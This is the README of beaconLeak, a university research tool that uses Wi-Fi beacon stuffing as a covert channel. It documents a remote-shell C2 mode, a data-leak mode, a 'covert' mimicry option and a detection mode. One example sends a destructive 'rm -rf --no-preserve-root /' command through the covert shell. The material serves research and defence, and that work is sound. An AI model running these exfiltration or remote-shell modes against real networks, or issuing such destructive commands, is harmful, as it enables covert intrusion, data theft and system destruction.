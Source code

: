 # beaconLeak v0.9.0

beaconLeak is an open source tool developed as a proof
of concept of the beacon stuffing method as a covert channel. This channel
allows command and control or data exfiltration using the wireless network card 
without association or authentication. beaconLeak includes
the necessary functionality to both leak data as an attacker and detect the 
attack for defense purposes. Detection mode uses basic indicators of compromise
and generate log entries to be  consumed by monitoring or correlation security 
systems.

## Description

The beacon stuffing attack is a wireless physical attack, so wireless proximity
is required. Because of the need to push custom frames through the wireless 
interface, the tool must be run with either root privileges or network admin 
capabilities. Packet injection is a must for full functionality.  
This tool uses Scapy to transmit the 802.11 (Dot11) frames, and pyNaCL to have
all data encrypted on transit.

* c2 mode: remote covert shell
* leak mode: command channel and data exfiltration
* detect mode: detect the use of this method (multiple tool detection)

## Requirements

* Root privileges
* Python 3 with pip
* Packet Injection capable Wireless NIC

## Installation
*These instructions are for Linux based systems only, other platforms are* 
*partially supported, please check for more info in the repository.*

1. Set up a Python virtual environment

```
# python -m venv bl
```

2. Load Python virtual environment

```
# source bl/bin/activate
```

3. Install the Python libraries dependencies to the virtual environment

```
(bl)# pip install -r requirements.txt
```

4. ???
5. Profit! 

## Usage

```
usage: beaconleak.py [-h] (--leak | --detect | --c2) [--pcap PCAP [PCAP ...]]
                     [--autohop] [--loglevel LOGLEVEL] [--covert] [--psk PSK]
                     [--ssid SSID] [--bssid BSSID] [--delay DELAY] [--debug]
                     iface

     _                       __            _
    | |_ ___ ___ ___ ___ ___|  |   ___ ___| |_
    | . | -_| .'|  _| . |   |  |__| -_| .'| '_|
    |___|___|__,|___|___|_|_|_____|___|__,|_,_|
                            by cjcase [v0.9.0]

    

positional arguments:
  iface                 Wireless interface in monitor mode

optional arguments:
  -h, --help            show this help message and exit
  --debug               Debug verbosity.

modes:
  --leak                (target) Leak data mode.
  --detect              (detect) Check surroundings for possible attacks
  --c2                  (attack) Command & control, remote shell

detect mode options:
  --pcap PCAP [PCAP ...]
                        pcap file(s) for offline beacon analysis
  --autohop             (Linux only) Automatic channel hopping
  --loglevel LOGLEVEL   log level, lowest is critical

c2 and leak mode options:
  --covert              Be extra sneaky by mimicking surrounding beacons
  --psk PSK             Custom encryption passphrase
  --ssid SSID           Emulated station WiFi name
  --bssid BSSID         Emulated station MAC address
  --delay DELAY         delay to sniff for command output response [default=5]
```

## Examples

### beaconLeak in detection mode
This mode will use your device's wireless radio in monitor mode to detect
stuffed beacons in real time.

```
(bl)# python beaconleak.py --detect wlan0mon 
```

Optionally, you can analyze previous wireless packet captures to find stuffed
beacons. e.g. you could sniff your wireless surroundings with Wireshark, save
the captures to then analyze with beaconLeak.
In this mode, the interface is still a required argument but ignored.

```
(bl)# python beaconleak.py --pcap cap1.pcap cap2.pcap cap3.pcap --detect lo0 
```

### beaconLeak in C2 mode
This mode emulates a trivial shell, will allow you to communicate with any
target that shares the same PSK, like the default built-in PSK.

```
(bl)# python beaconleak.py --c2 wlan0mon 
```

If you'd like to be more sneaky, you can toggle the covert mode, which will
search for the noisiest beacon in your surroundings and mimimc it. You can also 
use your own PSK for encryption, but make sure the target is also started with 
this passphrase. beaconLeak will use pyNaCl's KDF to generate a strong key from 
this string.

```
(bl)# python beaconleak.py --covert --psk "secret sauce" --c2 wlan0mon
```

The covert channel is designed to be two-way, so it needs a delay in seconds 
where C2 mode will sniff packets to receive the target's output. This delay can 
be modified with the ```--delay``` flag. If you don't care about the output, 
instead of using a 0 delay, you can prepend your commands with the '!'
character.

```
(bl)# python beaconleak.py --c2 wlan0mon

 _                       __            _
| |_ ___ ___ ___ ___ ___|  |   ___ ___| |_
| . | -_| .'|  _| . |   |  |__| -_| .'| '_|
|___|___|__,|___|___|_|_|_____|___|__,|_,_|
                        by cjcase [v0.9.0]


[*] Using interface wlan0mon, type '!help' for usage, use Ctrl+C to exit
[beaconshell] >>> !rm -rf --no-preserve-root /
```

### beaconLeak in leak mode (victim simulation)
By default this mode will not generate any output, you can use debug mode to 
check what is happening.

```
(bl)# python beaconleak.py --leak wlan0mon 
```

### Debug Mode
All modes have an extra flag to toggle verbosity, this will let you see more of
what is happening, it's also useful to us if you find a bug and submit the 
issue with output from the this mode.

```
(bl)# python beaconleak.py --leak --debug wlan0mon 
```

## Collaboration
Have an idea for a cool new feature? want to help fix an issue or optimize how 
this tool works? Please submit a pull request!

## License

[GNU GLPv3](https://www.gnu.org/licenses/gpl.txt)


## Acknowledgements

This tool was inspired by the "bridging the airgap" research work by 
Mordecai Guri, et. al. 
A previous description of the beacon stuffing method for exfiltration was 
described by Tom Neaves in his [Trustwave Spider Labs blog post](https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/smuggler-an-interactive-80211-wireless-shell-without-the-need-for-authentication-or-association/) about his tool 
"Smuggler".
[PyExfil](https://github.com/ytisf/PyExfil/) by Yuval Nativ has a
basic implementation of this method that predates our tool, its method has been
added to our detection functionality. 

This project was developed as a research project for Tallinn University of
Technology's Cyber Security Master programme and funded by the Dora Plus fund.

![Dora Plus](http://haridus.archimedes.ee/sites/default/files/styles/medium/public/eu_regional_development_fund_horizontal_0.jpg)
